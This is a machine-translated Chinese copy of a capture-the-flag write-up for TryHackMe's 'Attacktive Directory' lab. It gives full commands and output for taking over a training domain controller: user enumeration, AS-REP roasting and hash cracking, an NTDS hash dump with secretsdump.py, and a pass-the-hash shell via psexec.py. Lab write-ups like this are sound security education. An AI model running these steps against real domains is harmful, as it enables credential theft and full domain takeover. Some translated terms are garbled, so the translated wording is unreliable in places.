





# THM:攻击目录

> 原文：<https://infosecwriteups.com/thm-attacktive-directory-7db6d7e5b0f5?source=collection_archive---------0----------------------->



在本文中，我通过枚举运行在开放端口上的服务、滥用 Kerberos 特性以及提升我在域控制器上的特权来收集所有挑战标志，逐步完成了利用域控制器的过程。该挑战在 TryHackMe 平台上可用，标题为“**攻击目录**，由用户“ [*幽灵*](https://tryhackme.com/p/Sq00ky) ”创建。

# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读本文之前尝试一下这个房间，因为在这篇文章中显然会有**剧透** **。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再回来写这篇文章，你会更喜欢这个挑战。因此，没有任何进一步的拖延，让我们开始吧！**

# 什么是活动目录？

Active directory 是 Microsoft 开发的一项服务，用于管理 Windows 域网络并存储与对象(如计算机、用户、打印机等)相关的信息。这使得管理员和用户更容易找到和使用关于对象的信息。在 Active Directory 中，有一个名为**域控制器**的服务器。域控制器提供身份验证和授权服务，将更新复制到域/林中的其他域控制器，并允许管理访问来管理用户帐户和网络资源。

# 端口服务枚举

我开始枚举目标机器，用 **NMAP** 执行快速扫描来识别任何打开的端口。

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.253.179PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 125
80/tcp    open  http           syn-ack ttl 125
88/tcp    open  kerberos-sec   syn-ack ttl 125
135/tcp   open  msrpc          syn-ack ttl 125
139/tcp   open  netbios-ssn    syn-ack ttl 125
389/tcp   open  ldap           syn-ack ttl 125
445/tcp   open  microsoft-ds   syn-ack ttl 125
464/tcp   open  kpasswd5       syn-ack ttl 125
593/tcp   open  http-rpc-epmap syn-ack ttl 125
636/tcp   open  ldapssl        syn-ack ttl 125
3389/tcp  open  ms-wbt-server  syn-ack ttl 125
5985/tcp  open  wsman          syn-ack ttl 125
9389/tcp  open  adws           syn-ack ttl 125
47001/tcp open  winrm          syn-ack ttl 125
49664/tcp open  unknown        syn-ack ttl 125
49665/tcp open  unknown        syn-ack ttl 125
49666/tcp open  unknown        syn-ack ttl 125
49669/tcp open  unknown        syn-ack ttl 125
49672/tcp open  unknown        syn-ack ttl 125
49673/tcp open  unknown        syn-ack ttl 125
49674/tcp open  unknown        syn-ack ttl 125
49678/tcp open  unknown        syn-ack ttl 125
49684/tcp open  unknown        syn-ack ttl 125
49695/tcp open  unknown        syn-ack ttl 125
```

查看输出，我可以看到有 24 个端口是打开的。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用的 NSE 脚本来查找我可以利用的任何常见漏洞。

```
nmap -sV -sC -Pn -v -oN nmap-report -p 53,80,88,135,139,389,445,464,593,636,3389,5985,9389,47001,49664,49665,49666,49669,49672,49673,49674,49678,49684,49695 10.10.253.179PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-03-20 15:08:02Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2022-03-20T15:10:30+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-03-19T14:57:07
| Not valid after:  2022-09-18T14:57:07
| MD5:   98b7 aa02 99ce 8fac 662f 00bb 1c1f 2924
|_SHA-1: 6c83 7335 c65a 610b 4477 d012 08b9 2223 aed5 ebd0
|_ssl-date: 2022-03-20T15:10:46+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
```

我可以看到一些由 NMAP 确定的有趣的服务运行在开放的端口上，我们可以进一步列举。

# SMB 枚举

我可以看到端口 139 和 445 是打开的。端口 139 和 445 用于**认证和文件共享**。有多种工具可用于枚举端口 139/445。我们可以从使用 **enum4linux** 来查找目标上的股份信息开始。

```
# -a: does all simple enumeration(-U -S -G -P -r -o -n -i).
$ enum4linux -a 10.10.201.126============================================ 
|    Getting domain SID for 10.10.201.126    |
 ============================================ 
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)
```

这为我们提供了一些有用的信息，比如机器的**NetBIOS-域名**，它是 DNS 域名的子域。

# RDP 枚举

继续查看之前执行的 NMAP 扫描的输出，我可以看到端口 3389 (RDP)上泄露了一些额外的 Windows 主机和域信息。

```
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2022-03-20T15:10:30+00:00
```

我还可以看到顶级域名(TLD) **。使用了 local** ，这是人们过去常用的活动目录域，但根据[活动目录命名常见问题解答](https://wiki.samba.org/index.php/Active_Directory_Naming_FAQ)，现在应该避免使用。

# Kerberos 枚举和利用

Kerberos 是运行在端口 88 上的 Active Directory 中的一项关键身份验证服务。我们可以使用工具**Kerberos**来枚举用户，通过 Kerberos 预认证，可以快速强制枚举有效的 Active Directory 帐户。

```
./kerbrute_linux_amd64 userenum --dc 10.10.253.179 -d spookysec.local -o kerbrute-user-enum userlist2022/03/20 15:34:28 >  Using KDC(s):
2022/03/20 15:34:28 >   10.10.253.179:882022/03/20 15:34:29 >  [+] VALID USERNAME: james@spookysec.local
2022/03/20 15:34:35 >  [+] VALID USERNAME: svc-admin@spookysec.local  
2022/03/20 15:34:44 >  [+] VALID USERNAME: James@spookysec.local
2022/03/20 15:34:47 >  [+] VALID USERNAME: robin@spookysec.local
2022/03/20 15:35:14 >  [+] VALID USERNAME: darkstar@spookysec.local
2022/03/20 15:35:37 >  [+] VALID USERNAME:       administrator@spookysec.local
2022/03/20 15:36:11 >  [+] VALID USERNAME: backup@spookysec.local
2022/03/20 15:36:32 >  [+] VALID USERNAME: paradox@spookysec.local
2022/03/20 15:39:16 >  [+] VALID USERNAME: Robin@spookysec.local
2022/03/20 15:43:20 >  [+] VALID USERNAME: Administrator@spookysec.local
2022/03/20 15:51:29 >  [+] VALID USERNAME: Darkstar@spookysec.local
2022/03/20 15:54:07 >  [+] VALID USERNAME: Paradox@spookysec.local
2022/03/20 16:02:39 >  [+] VALID USERNAME: DARKSTAR@spookysec.local
2022/03/20 16:04:59 >  [+] VALID USERNAME: ori@spookysec.local
2022/03/20 16:11:05 >  [+] VALID USERNAME: ROBIN@spookysec.local
2022/03/20 16:25:53 >  Done! Tested 73317 usernames (16 valid) in 3084.883 seconds
```

我们可以看到发现了 16 个帐户，包括一个服务管理帐户(即 **svc-admin** )和一个**备份**帐户，这是特别感兴趣的。使用新发现的帐户列表，我们可以尝试滥用 Kerberos 中的一个特性，使用一种叫做**as re proposing 的攻击方法。**

> 当用户帐户设置了“不需要预验证”权限时，会发生重新发布。这意味着帐户**在请求指定用户帐户上的 Kerberos 票据之前不需要**提供有效的身份证明。

我们可以在 [Impacket](https://github.com/SecureAuthCorp/impacket) 中使用一个名为“ **GetNPUsers.py** 的工具来检索 Kerberos 票据。这允许我们从密钥分发中心查询可恢复的帐户。查询帐户唯一需要的是一组有效的用户名，我们之前已经通过 Kerbrute 列举过了。

```
python3 GetNPUsers.py spookysec.local/ -dc-ip 10.10.253.179 -usersfile kerberos-usernames -no-pass -request -outputfile kerberos-users-found
```

在运行“ **GetNPUsers.py** ”之后，我可以看到您可以从 svc-admin 用户帐户查询一张没有密码的票。

```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:408ee4a3e91ec877b931d35c56364c77$63dc9e093d6f3ddfd0074033786ed4d4d6e5f3e9f27be7f98866c0c91c4271c6c8a721eafa9e343a2b9638da64fe71d7563c31e51e6aac0686ba9025ab8ff2d41b8b24f38888cd803c70568744a12daa95cca16b73fa6bc5b20f1fb697b29fd1fe39fa0553ae07ad7e6e2f5232e306ee2abf3ee2ba8ebc704bc96f0d60cd245f96f4caa7c20c3a673fba2b25a384593b01e334560348a146d9168e1fc594b8c59e11382193bd2b3f1c421f9d5fdc61167c8f3bfa18d60fc6fca79923c16b707927719330363b593c28ccc0c7dd2c5e7696b43d45a4bc016341f773805c53f51d2b6ae4a0fa3c3280a18a9d53d9b5fd08337c
```

接下来，我们可以使用 **Hashcat** 来破解从 KDC 中检索到的“Kerberos 5 AS-REP etype 23”散列。

```
hashcat64.exe -m 18200 -a 0 hash.txt rockyou.txt -o cracked.txt<hash>:mana**********
```

这为我们提供了一组凭据，我们现在可以使用这些凭据来枚举域控制器可能发出的任何共享。

# SMB 枚举(续。)

使用 svc-admin 凭据，我现在可以进一步列举 DC 上的共享。我可以使用工具 **smbclient** 在 DC 上市股票。

```
smbclient -L //10.10.200.95 -U svc-admin
Enter WORKGROUP\svc-admin's password: Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share
```

我可以看到服务器列出了六个共享，包括一个名为**备份**的共享。此共享包含一个名为“ *backup_credentials.txt* ”的文本文件，其中包含 base64 编码的文本。解码此文本将为备份用户帐户提供凭据。



CyberChef Base64 解码凭证。

# 域权限提升

根据挑战描述，备份帐户具有唯一权限，允许**所有活动目录更改与此用户帐户同步，**包括密码哈希。我们可以在 Impacket 中使用一个名为“ **secretsdump.py** ”的工具来检索这个用户帐户(与域控制器同步)必须提供的所有密码哈希。

```
python3 secretsdump.py spookysec.local/backup:'backup2517860'[@10](http://twitter.com/10).10.25.158 -just-dc
```

“ **secretsdump.py** ”使用 DRSUAPI 方法获取 NTDS。DIT 秘密。

> Ntds。dit 文件是存储 Active Directory 数据的数据库，包括有关用户对象、组和组成员的信息。重要的是，该文件还存储了域中所有用户的密码散列。

这个工具为 DC 机器上的所有用户转储 NTLM 散列。

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::.....etc.....
```

# 传递哈希(PtH)攻击

一种攻击方法是**Pass Hash**攻击，它可以让我们在没有密码的情况下验证用户身份。

> 传递哈希攻击是一种技术，攻击者通过这种技术捕获密码哈希(相对于密码字符)，然后简单地传递它以进行身份验证，并可能横向访问其他网络系统。

有多种工具可以用来执行 pass hash 攻击，包括 **Evil-WinRM** 、 **crackmapexec** 和 **psexec.py** 。我很难让 Evil-WinRM 工作，但能够使用 psexec.py 获得一个带有管理员 NTLM 哈希的 shell。

```
python3 psexec.py Administrator@10.10.25.158 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fcImpacket v0.9.24 - Copyright 2021 SecureAuth Corporation[*] Requesting shares on 10.10.200.95.....
[*] Found writable share ADMIN$
[*] Uploading file eanlOsfQ.exe
[*] Opening SVCManager on 10.10.200.95.....
[*] Creating service GzYy on 10.10.200.95.....
[*] Starting service GzYy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1490]
(c) 2018 Microsoft Corporation. All rights reserved.C:\Windows\system32>
```

从这里，我可以有效地完全控制 AD 域，并可以检索所有三个标志。



用户标志。



权限提升标志。



根标志。

# 最后的想法

我真的很喜欢在这个房间里工作，并有机会学习更多关于利用 Active Directory 域控制器的知识。谢谢你一直读到最后，继续黑下去😄！

[](https://tryhackme.com/) [## 网络安全培训

### TryHackMe 是一个免费的学习网络安全的在线平台，使用动手练习和实验室，通过您的…

tryhackme.com](https://tryhackme.com/)